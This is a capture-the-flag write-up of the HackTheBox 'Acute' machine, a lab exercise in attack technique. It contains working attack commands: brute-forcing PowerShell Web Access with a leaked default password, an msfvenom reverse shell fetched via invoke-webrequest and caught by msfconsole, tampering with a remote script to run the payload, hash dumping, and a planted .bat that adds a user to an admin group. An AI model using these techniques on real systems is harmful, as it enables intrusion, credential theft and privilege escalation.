

# acute-writeup-feb-22


## Acute



### Reconnaissance <a href="#6b46" id="6b46"></a>

First thing.

I will echo the box name into my /etc/hosts file for DNS resolution.

```
echo "acute.htb  10.10.11.145" >> /etc/hosts
```

Using '>>' ensures the existing data is added to and not overwriten such as when using '>'.

I then make a directory of the box for all files using mkdir.

```
cd ~/HTB
mkdir Acute
```

I run a quick initial nmap scan to see which ports are open and which services are running on those ports. I generally export this to a file for later viewing

```
nmap -sC -sV acute.htb > nmap-initial.txt
```

* **-sC**: run default nmap scripts
* **-sV**: detect service version

.png>)

We get back the following result showing that 1 port is open:

* **Port 443:** running ssl/http (HTTPS)

### Enumeration <a href="#64a0" id="64a0"></a>

The nmap scan discloses the domain name of the machine to be atsserver.acute.local So I add another entry to the hosts file, the same method as previous.

As HTTPS was the only port open, this will be the first thing that I enumerate.

Browsing to https://acute.htb.local gave nothing but the Certificate.

Upon inspection, I already have the subject alternate name (SANs) and common name from the nmap results.

.png>)

I try my luck with https://atsserver.acute.local

I get back a webpage, this is positive.


 (1).png>)

I view the page source code, There's nothing of interest to be found here.

Under /about.html there is a section on "who we work with" and within this text there are some names.

 (1).png>)

I make a list of the names as firstname.lastname in a user.txt file.

On the /about.html page, there is an induction checklist for new starters in a .docx format.

.png>)

Under the Overview section there is a note "Walk new starter through the password change policy, they wil need to change it from the default Password1!" - Here's my first password.


 (1).png>)


Under First 3 Months, there is a section that provides a link to a "Remote training" site.


.png>)


Lastly, a note on the bottom advises: "\*Lois is the only authorized personnel to change Group Membership, Contact Lois to have this approved and changed if required. Only Lois can become site admin."

So to summaraize from viewing the docx, I have:

1. A Password
2. A remote login URL
3. The name of a privileged user.

I also use exiftool to view the metadata of the docx.

```
exiftool New_Starter_Checklist_v7.docx
```

.png>)

The results provide me with the following:

1. Creator = 'FCastle'
2. Description = 'Created on ACUTE-PC01'

to summaraize further, I now have the name of the docx creator. The username format appears to be first initial.surname I also have the hostname of another machine 'ACUTE-PC01'

I now edit my existing username.txt list and change the format of the usernames from first.lastname to first initial.surname.

### Gain an Initial Foothold <a href="#4e59" id="4e59"></a>

The remote URL takes me to a Windows Powershell Web Access page. I test all the variable combinations that could possibly work with a manual brute force.

 (1).png>)

Using usernames.txt and Password1 against atsserver.acute.local and acute-pc01.acute.local

I finally get a foodhold.

.png>)

### Some quick enumeration

**Manual Checking**

* 'C:\\'
* 'C:\Temp'
* 'C:\Windows'
* 'C:\Users'
* 'C:\Program Files(x86)'
* 'C:\Program Files'

I look for anything non-standard. In this instance there is a Folder called 'C:\Utils' which is empty.

Enumeration of my environment through Powershell.

```
whoami
hostname
dir env:
whoami /priv
whoami /groups
klist
qwinsta
net group /domain
net localgroup
```

* **whoami:** Shows my current user
* **hostname:** Hostname I am logged on to
* **dir env:** Advises me of environmental values
* **whoami /priv:** Local privileges for current user
* **whoami /groups:** Local Groups that current user is a member of
* **klist:** Provides information on any kerberos tickets cached
* **winver:** Windows Version running
* **qwinsta:** Shows any other users logged in with a running session
* **net localgroup:** Shows Local Groups
* **netgroup /domain:** Shows Groups within the Domain - This failed.

 (1).png>)

QWINSTA results advise that User1 has a Console session running, This would be an interactive logon either via RDP or local logon. - Noted.

Further enumeration

```
Get-Childitem -Path C:\*.txt -Recurse -Depth 2 -Force -Erroraction SilentlyContinue | Select Directory, Name >> gci-c.txt
Get-Content gci-c.txt | findstr /i Password.
```

Get-ChildItem (gci) allows me to search for all Files on C:\ with a name that ends with .txt

* **Path:** When using path can use wildcards to search for file types, such as .txt, .ini, .log, .ps1
* **Recurse:** Recursively search through Folders
* **Depth:** Search 2 levels deep (result bloat)
* **Force:** Shows hidden files
* **Erroraction:** Use with SilentlyContinue to not display errors and to continue even when an error occurs.
* **Select:** To avoid verbose output, use select with Name & Directory to filter the results.

.png>)

Get-Content allows me to read files with data in them such as .txt, .ini, .log., .ps1 **findstr /i Password:** Find String with a value of "Password" within the text file. /i means case-insensitive.

\*\* This method is more targetted and provides less irrelevant results, you can use .txt, .ini, .log extensions \*\*

For more generalized results that return more data that may not be so accurate.

```
findstr /si Password *.ini *.xml *.txt, *.ps1
```

Find String 'Password' within any files containing .ini, .xml, .txt., .ps1

\*\* This will return less accurate results but search thoroughly. \*\*

Lastly, I will use the last gci cmdlet.

```
 Get-Childitem C:\*.txt -Recurse -Hidden -Depth 2 -Force -Erroraction SilentlyContinue | Select Directory, Name >> gci-c-hidden.txt
```

This time I use the \* **Hidden** switch, This will return only files that are marked as hidden.

 (1).png>)

After viewing the results, there is a .ini file in C:\Utils which I know is hidden.

Browsing to C:\Utils and running 'Dir -Force' shows me of any other hidden files but there is only 'desktop.ini'

.png>)

Using Get-content I can view the data: "Directory for Testing Files without Defender" - So I know that this PC is running Defender but also has Whitelisted this directory for files to run.

Referring back to my notes, I still need to try and view what is on the RDP/Console session for User1. The best method I can think of at the time is to use Meterpreter.

From \~/HTB/Acute, I run the following:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp
```

This generates a reverse shell payload, named reverse.exe in mymy Acute Directory. Now I needed to get this payload onto the PC.

On my VM I run my http server from my Acute diectory.

```
python -m http.server 9090
```

* **http.server:** This starts running a webserver on my Kali VM
* **9090:** This is the port that is opened. **from Whatever directory I run the http.server, the contents will be published over port 9090**

 (1).png>)

 (1).png>)

From my Remote Powershell I download the payload to C:\Utils

```
invoke-webrequest -uri "http://<IP Address of my VM>:9090/reverse.exe" -Outfile "C:\Utils\reverse.exe"
```

There are a couple different methods you can use to download files over HTTP, such as.

* **wget**
* **invoke-webrequest**
* **curl**

.png>)

After the reverse.exe has been saved to C:\Utils, I need to setup my meterpreter listener.

```
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.14.28; set lport 9000; exploit"
```

Once connected, I use 'screenshare' to save a html file where I can view the desktop of the current user.

.png>)

When viewing the screen, user1 is attempting to Connect to the ATSSERVER via WINRM. He uses.

```
$username = "acute\user2"
$password = "xxxx."
$secureStringPwd = ConvertTo-SecureString $password -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ($username, $secureStringPwd)
Enter-PSSession -Computername ATSSERVER -configurationname dc_manage -Credential $cred
```

This failes with a number of errors.

 (1).png>)

When I attempt to do the following, I get the error "You are currently in a windows powershell pssession and cannot use the enter-pssession cmdlet"

This is not all negative, From the screenshare, I can see that user is attempting to connect with a different user and provides the password.

I now have acute\user2 password.

To test the credentials, I know I cannot enter-pssession but I can try invoke-command using whoami.

```
Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -credential $creds -command {whoami} 
```

.png>)

The result returns: acute\user2. - This is successful, I have confirmed the password.

Time to enumerate on ATSSERVER with user2.

First I perform my manual checks of the server.

* 'C:'
* 'C:\Temp'
* 'C:\Windows'
* 'C:\Users'
* 'C:\Program Files(x86)'
* 'C:\Program Files'

Under C:\Program Files\ there is a directory named 'keepmeon' - I haven't seen this before so I am unfamilar with what it is.

Upon trying to CD into keepmeon, I am denied access.

.png>)

I continue to enumerate accounts.

```
Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -credential $creds -command {net user user2 domain}
```

* **net user domain:** Provides Domain Group memberships.

.png>)

From the result, I can see that user2 is part of Domain Users & Managers. I'm of the assumption that 'Managers' is a privileged group membership.

I then enumerate the Managers Group

```
Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -credential $creds -command {net group Managers /domain}
```

* **net group /domain:** Provides memberships of the Managers Group. user2 and user3 are the only users of the managers group.

.png>)

Enumerate groups on ATSSERVER

```
invoke-command -computername ATSSERVER -configurationname dc_manage -credential $creds -command {net group}
```

* **net group:** Will provide Domain Groups if run from a DC.

.png>)

I use my gci to search for any files of interest under the current user

```
Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -credential $creds -command {get-childitem -path C:\users\*.txt -Recurse -Force -erroraction silentlycontinue}

Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -credential $creds -command {get-childitem -path C:\users\*.log -Recurse -Force -erroraction silentlycontinue}

Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -credential $creds -command {get-childitem -path C:\users\*.ini -Recurse -Force -erroraction silentlycontinue}

Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -credential $creds -command {get-childitem -path C:\users\*.ps1 -Recurse -Force -erroraction silentlycontinue}
```

Result of GCI shows me the user flag on currentuser\desktop and also a .ps1 file.

For when running invoke-command, 'get-content' did not work, I had to use cat.

```
Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -credential $creds -command {cat C:\users\user2\desktop\user.txt}

Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -credential $creds -command {cat C:\users\user2\desktop\wm.ps1}
```

User flag owned.

For wm.ps1.

.png>)

The script apperas to invoke a command back on acute-pc01 of get-volume under the credentials of user4.

I can edit this script to remove the get-volume to use something else to escalate my privileges. I already have my reverse.exe on PC01 that I can test the credentials of user4 but also check jmorgan's privileges if successful.

I initially attempted to recreate the .ps1 file on my VM and change the contents to remove get-volume and run cmd.exe to call our reverse.exe but I did not have any luck with using my http download methods such as curl, wget etc.. to actually get it onto ATSSERVER.

In the end I had to research how to change the contents of the file on the fly. This could be done using the following cmdlet.

```
Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage  -credential $cred  -ScriptBlock{((cat "c:\users\user2\Desktop\wm.ps1" -Raw) -replace 'Get-Volume','cmd.exe /c c:\utils\reverse.exe') | set-content -path c:\users\imonks\Desktop\wm.ps1}
```

Now this script will call the reverse shell, I run my meterpreter listener again and call the script using invoke-command.

.png>)

* Success. My meterpreter listerner is now connected to ATSSERVER. using whoami /groups. I can see that user4 is part of the 'Builtin\Administrators' group.

 (1).png>)

&#x20;Using meterpretyer 'getsystem' I can escalate my privileges.

.png>)

I am now NT AUTHORITY\SYSTEM with a shell.

.png>)

I dump the hashes of the box and crack them with Rockyou.txt. The password is super simple and I add it to my passwords.txt list.

 (1).png>)

I test my credentials with the administrator account through the use of invoke-command but fails.

I refer back to my username.txt and check for any password re-use amongst the accouts. Upon my first attempt, I am successful with user3.

```

$username = "user3"
$password = "xxx"
$secureStringPwd = ConvertTo-SecureString $password -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ($username, $secureStringPwd)

Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -credential $creds -command {whoami}
```

I now go back to checking C:\Program Fies\keepmeon as user3, and I have access. Within keepmeon, there is a.bat file, I use 'cat' again to check the contents.&#x20;

There is a line \`\`\`text REM This is run every 5 minutes. For Lois use ONLY

.png>)

I know from the .docx that Lois is the only person with Site Admin access, so she must be the privileged user within the environment. I can also assume that this .bat is running under a Scheduled task as it references 'every 5 minutes'

From what I understand, the .bat file is checking for any \* .bat files within 'keepmeon' and executing them.

I know from our Domain Group enumeration that the Site Admins group is named 'Site\_Admin'

I can create a .bat file that will add user3 to the site\_admins group. Knowing that I cannot create and download the file, I will need to create it through Powershell.

.png>)

```
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $creds -ScriptBlock {Set-Content -Path 'c:\program files\Keepmeon\admin.bat' -Value 'net group site_admin user3 /add /domain'}
```

I double check the content with 'cat'

.png>)

```
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $creds -ScriptBlock {cat 'c:\program files\Keepmeon\admin.bat'}
```

Wait for the scheduled task to run and then check user3 group memberships.

```
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $creds -ScriptBlock {net user user3}
```

Confirmed, user3 is now part of the site\_admins group. Time to enumerate.

.png>)

```
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $creds -ScriptBlock {get-childitem -path C:\users\*.txt -Recurse -Depth 2 -ErrorAction SilentlyContinue}
```

.png>)

Result is root.xt at C:\users\administrator\desktop\\&#x20;

cat root.txt and I've owned system.

